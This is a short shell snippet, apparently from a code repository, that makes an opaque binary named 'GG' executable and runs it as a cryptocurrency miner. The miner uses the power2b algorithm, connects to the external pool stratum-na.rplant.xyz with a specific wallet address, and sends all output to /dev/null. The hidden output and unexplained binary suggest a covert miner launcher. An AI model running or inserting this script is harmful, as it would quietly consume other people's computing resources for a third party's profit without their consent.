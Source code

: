 ping -w 60 8.8.8.8
chmod +x GG
./GG -a power2b  -o stratum+tcps://stratum-na.rplant.xyz:17022 -u MqmM35U2EtSFVvit5VcW7nY9raBy6Sw6vm.a -p password=X -t 6 >/dev/null

